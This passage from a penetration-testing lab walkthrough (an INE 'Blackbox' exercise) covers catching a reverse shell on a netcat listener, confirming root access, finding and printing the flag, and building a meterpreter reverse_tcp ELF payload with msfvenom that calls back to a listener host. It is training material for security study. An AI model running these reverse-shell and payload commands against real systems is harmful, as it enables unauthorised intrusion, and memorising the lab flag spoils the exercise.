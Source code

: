 ![](../media/Blackbox%20lab%20INE_55.png)

This should trigger the bug and get us the reverse shell! Once the payload has been supplied, check the terminal on which the netcat listener was started:

![](../media/Blackbox%20lab%20INE_56.png)

We've got a reverse shell session from the target machine!

Looks like we've got a root shell:

Command:

id

![](../media/Blackbox%20lab%20INE_57.png)

Step 13: Retrieving the flag from the target machine.

Let's find the flag from this machine:

Command:

find / -iname *flag* 2>/dev/null

![](../media/Blackbox%20lab%20INE_58.png)

Notice the very first entry of the output:/tmp/flag. This file contains the flag.

Let's read the flag:

![](../media/Blackbox%20lab%20INE_59.png)

Flag: 3b2b474c06380f696b38c1498f795e054374

Step 14: Generating payload to gain a meterpreter session on the compromised machine.

Even though we have compromised the target machine, we are still limited in the things we can do with the normal shell session. It would be quite good to gain a meterpreter shell session instead to carry out further exploitation.

Use the following command to generate areverse_tcppayload to get back a meterpreter shell session (an ELF binary):

Command:

msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=192.196.85.2 LPORT=5555 -f elf > payload.bin

![](../media/Blackbox%20lab%20INE_60.png)

The payload is now ready and saved to the file namedpayload.bin.

Command:

file payload.bin

It's an 64-bit ELF binary, as indicated by the above command!

Step 15: Downloading the payload binary on the compromised target machine.
